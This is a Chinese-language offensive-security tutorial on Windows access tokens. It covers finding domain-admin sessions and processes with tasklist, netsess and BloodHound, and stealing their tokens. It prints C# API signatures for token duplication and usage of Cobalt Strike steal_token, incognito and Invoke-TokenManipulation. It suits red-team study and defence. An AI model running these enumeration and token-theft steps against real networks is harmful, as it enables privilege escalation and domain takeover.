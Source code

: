 # 域管进程Token查找与窃取

### Token介绍

- **访问令牌**

  访问令牌(Acess Token)是描述进程或线程安全上下文的一个对象。令牌中的信息包括与进程或线程关联的用户帐户的标识和特权。当用户登录时，系统通过将用户密码与安全数据库中存储的信息进行比较来验证用户密码。如果密码已通过身份验证，则系统将生成访问令牌。代表该用户执行的每个进程都有此访问令牌的副本。

  当线程与安全对象进行交互或尝试执行需要特权的系统任务时，系统使用访问令牌来标识用户。访问令牌包含以下信息：

  - 用户帐户的安全标识符(SID)
  - 用户所属的组的SID
  - 登录SID--标识当前登录会话
  - 用户或用户组拥有的特权列表
  - 所有者SID
  - 主要组的SID
  - 用户创建安全对象而不指定安全描述符时系统使用的默认[DACL](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-control-lists)
  - 访问令牌的来源
  - 令牌是主要令牌还是模拟令牌
  - 限制SID的可选列表
  - 当前的模拟级别
  - 其他统计

- **令牌创建**

  当用户以交互方式登录或尝试与运行Windows的计算机建立网络连接时，登录过程将对用户的凭据进行身份验证。如果身份验证成功，则该过程将为用户返回一个SID，并为用户的安全组返回一个SID列表。计算机上的本地安全机构（LSA）使用此信息来创建**访问令牌**。这包括登录过程返回的SID，以及由本地安全策略分配给用户和用户安全组的用户权限列表。

  在LSA创建主要访问令牌之后，访问令牌的副本将附加到代表用户执行的每个线程和进程上。每当线程或进程与安全对象进行交互或尝试执行需要用户权限的系统任务时，操作系统都会检查与该线程关联的访问令牌以确定授权级别。

  访问令牌有两种，**主要令牌**(Primary Token)和**模拟令牌**(Impersonation Token)。每个进程都有一个主要令牌，用于描述与该进程关联的用户帐户的安全上下文。通常将主要访问令牌分配给流程，以表示该流程的默认安全信息。另一方面，模拟令牌通常用于客户端和服务器方案。模拟令牌使线程可以在与拥有该线程的进程的安全上下文不同的安全上下文中运行。**令牌只有重启或关机时清除，否则一直驻留在内存中**。

  

### 查找域管Token

因为令牌会驻留在内存和令牌代表用户执行的线程和进程上，所以通过枚举域管登录Session和域管进程获取域管Token。

- **Tasklist**

  使用net group “Domain Admins” /domain查询域管理组成员，查看tasklist /v命令列出进程的详细信息里包含进程所有者

  ![](media/tasklist.png)

  列出远程机器进程列表

  `FOR /F %i in (ips.txt) DO @echo [+] %i && @tasklist /V /S %i /U user /P password 2>NUL > output.txt`

- **Netsess**

  使用netsess对每个域机器进行枚举，查找域管session

  ![](media/netsess.png)

  Domain Admin列表与活动会话列表交叉引用，以确定哪些IP地址上有活动的域令牌

  `FOR /F %i in (dcs.txt) do @echo [+] Querying DC %i && @netsess -h %i 2>nul > sessions.txt &&`

  `FOR /F %a in (admins.txt) DO @type sessions.txt | @findstr /I %a`

  调用了[NetSessionEnum](https://docs.microsoft.com/zh-cn/windows/win32/api/lmshare/nf-lmshare-netsessionenum?redirectedfrom=MSDN)接口

-  **BloodHound**

  采用轮询的方式查询域内Session

  `Invoke-BloodHound -CollectionMethod SessionLoop -LoopDelay 60 -MaxLoopTime 10`



### 窃取Token

- **基本原理**

  以进程所有者相同权限或者更高权限获取Token，利用获取到的token句柄启动新的进程。使用到的API:

  

  获取进程句柄

  ```c#
  [DllImport("kernel32.dll")]
          static extern IntPtr OpenProcess(ProcessAccessFlags dwDesiredAccess, [MarshalAs(UnmanagedType.Bool)] bool bInheritHandle, uint dwProcessId);
  ```

  根据进程句柄获取Token句柄

  ```c#
          [DllImport("advapi32.dll", SetLastError = true)]
          [return: MarshalAs(UnmanagedType.Bool)]
          static extern bool OpenProcessToken(IntPtr ProcessHandle, TokenAccessFlags DesiredAccess, out IntPtr TokenHandle);
  ```

  调整Token权限

  ```c#
          [DllImport("advapi32.dll", SetLastError = true)]
          [return: MarshalAs(UnmanagedType.Bool)]
          static extern bool AdjustTokenPrivileges(IntPtr TokenHandle,
             [MarshalAs(UnmanagedType.Bool)]bool DisableAllPrivileges,
             ref TOKEN_PRIVILEGES NewState,
             UInt32 Zero,
             IntPtr Null1,
             IntPtr Null2);
  ```

  复制Token

  ```c#
          [DllImport("advapi32.dll", CharSet = CharSet.Auto, SetLastError = true)]
          extern static bool DuplicateTokenEx(
              IntPtr hExistingToken,
              TokenAccessFlags dwDesiredAccess,
              IntPtr lpThreadAttributes,
              SECURITY_IMPERSONATION_LEVEL ImpersonationLevel,
              TOKEN_TYPE TokenType,
              out IntPtr phNewToken);
  ```

  使用复制的token创建新进程

  ```c#
          [DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Auto)]
          static extern bool CreateProcessAsUserW(
              IntPtr hToken,
              string lpApplicationName,
              string lpCommandLine,
              IntPtr lpProcessAttributes,
              IntPtr lpThreadAttributes,
              bool bInheritHandles,
              CreationFlags dwCreationFlags,
              IntPtr lpEnvironment,
              string lpCurrentDirectory,
              ref STARTUPINFO lpStartupInfo,
              out PROCESS_INFORMATION lpProcessInformation);
  ```

  创建新进程还可以使用

  ```c#
          [DllImport("advapi32.dll", EntryPoint = "CreateProcessWithTokenW", SetLastError = true,CharSet = CharSet.Unicode,CallingConvention = CallingConvention.StdCall)]
          private extern static bool CreateProcessWithTokenW(
           IntPtr hToken,
           uint dwLogonFlags,
           String lpApplicationName,
           String lpCommandLine,
           uint dwCreationFlags,
           IntPtr lpEnvironment,
           String lpCurrentDirectory,
           ref STARTUPINFO lpStartupInfo,
           out PROCESS_INFORMATION lpProcessInformation);
  ```

  

#### 利用工具

##### Cobalt Strike

使用steal_token命令指定pid即可窃取进程的token，窃取之后，默认当前becon具有该token的权限

##### Tokenvator

[Tokenvator](https://github.com/0xbadjuju/Tokenvator/tree/master/Tokenvator)是netspi开发的一套Token利用工具，[netspi](https://blog.netspi.com/)干货蛮多的，可以关注一下。

<img src="/Users/cate4cafe/工作/文章/域管进程查找及窃取Token/media/20200115200437.jpg" style="zoom:50%;" />

##### incognito

查看token

`incognito.exe list_tokens -u`

以token启动进程

`incognito.exe execute -c "xxx\xxx" calc.exe`

msf集成了incognito

##### Invoke-TokenManipulation

列举token

`Invoke-TokenManipulation -Enumerate`

复制线程token启动新线程

`Invoke-TokenManipulation -CreateProcess "cmd.exe" -ThreadId 500`